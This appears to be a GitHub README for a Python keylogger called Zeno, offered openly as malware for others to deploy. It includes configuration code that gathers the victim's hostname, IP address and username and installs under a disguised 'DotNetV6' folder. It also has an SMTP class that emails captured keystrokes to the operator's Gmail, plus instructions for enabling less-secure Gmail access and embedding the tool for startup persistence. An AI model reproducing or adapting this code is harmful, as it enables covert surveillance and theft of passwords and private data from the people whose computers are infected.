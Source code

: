 ![alt text](https://github.com/Zurek0x/zeno_Hijacker/blob/main/media/Screenshot_1.png?raw=true)
# Zeno Keylogger / Written in Python (EMAIL SERVICE)
This is a keylogger written in Python that includes certain sending methods of logs
specifically Email Servicing.
This is a better way to recieve logs since it doesn't require much effort or leaking
of server configurations or server handling which can be confusing for people and could
lead to more leaks.

# Usage (Pieces of code, Look in Source)
```python
# =?/Settings/?= #
hostname=socket.gethostname()   # Get Hostname of PC (For Logging)
IPAddr=socket.gethostbyname(hostname) # Get IP of PC (For Logging)

user = os.getlogin()# get username of PC
self_path=str(f"{os.getcwd()}") # Get Path of Self #
install_path=str(f"C:\\Users\\{user}\\Documents\\DotNetV6") # Path to install the virus too ( MUST HAVE \\ not \ )
email=str("null@gmail.com") # Email you want to recieve key logs on.
subject=str(f"") # DO NOT TOUCH THIS!
data=str("") # DO NOT TOUCH THIS!

cache = [""] # DO NOT TOUCH THIS!
filename=str("cache.txt") # Cache file name (must include .txt or .md)
file_size_limit_bytes=int(500) # File size limit before it sends Email and clears cache.
```
**Would suggest to change the full_size_limit_bytes=int(500) since this is the max file size before it sends the Email**
```python
class Mail:
    def __init__(self):
        self.port = 465
        self.smtp_server_domain_name = "smtp.gmail.com"
        self.sender_mail = "null@gmail.com"
        self.password = "null"
    def send(self, emails, subject, content):
        ssl_context = ssl.create_default_context()
        service = smtplib.SMTP_SSL(self.smtp_server_domain_name, self.port, context=ssl_context)
        service.login(self.sender_mail, self.password)
        for email in emails:
            result = service.sendmail(self.sender_mail, email, f"Subject: {subject}\n{content}")
        service.quit()

class Send:
    def Gmail(email, subject, data):
        mails=str(email).split()
        subject=subject
        content=str(data)
        print(content)
        mail = Mail()
        mail.send(mails, subject, content)
        print("Sent")
```

# !NOTICE FOR GMAIL OR GOOGLE USERS!
**For gmail users who are sending the Emails using Google Email Services like Gmail must setup a Less Secure App.**
**To set this up review the video here -> https://youtu.be/pAPWBHxnFHM <- Once you do this replace the 2 Lines below.**
![alt text](https://github.com/Zurek0x/zeno_Hijacker/blob/main/media/Screenshot_1.png?raw=true)

# Starting up with windows and extra stuff
To use these features you must import the code into zeno_Embedder which is a tool to do exactly this -> https://github.com/Zurek0x/zeno_Embedder
